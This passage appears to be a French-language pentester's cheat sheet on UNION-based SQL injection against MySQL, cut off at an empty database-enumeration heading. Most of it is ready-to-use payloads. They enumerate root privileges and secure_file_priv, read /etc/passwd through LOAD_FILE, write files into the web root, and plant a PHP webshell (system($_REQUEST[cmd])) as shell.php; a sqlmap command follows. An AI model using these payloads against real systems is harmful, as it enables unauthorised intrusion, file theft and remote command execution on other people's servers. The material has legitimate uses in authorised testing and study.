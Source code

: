 ```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root" #
```

### Trouver les privilèges du user sur le schéma

```sql
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'" #
```

### Trouver les répertoires accessibles depuis l'application

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv" #
```


# Injection de fichiers (si privilèges suffisants)

### Lire un fichier local #UnionBased (FILE privilege)

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4 #
```

### Ecrire dans un fichier local (FILE privilege, secure_file_priv empty et droits d'écriture sur le répertoire cible )

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'
```

### Upload un #Webshell  #UnionBased 

```sql
cn' union select '', '<?php system($_REQUEST[cmd]); ?>', '', '' into outfile '/var/www/html/shell.php' #
```





# #SQLMAP


> [!tip]
>Copier la requête à tester au format CURL ou copier requete depuis BURP

```
sqlmap -r Burp_requestfile
```

## Enumération de la DB
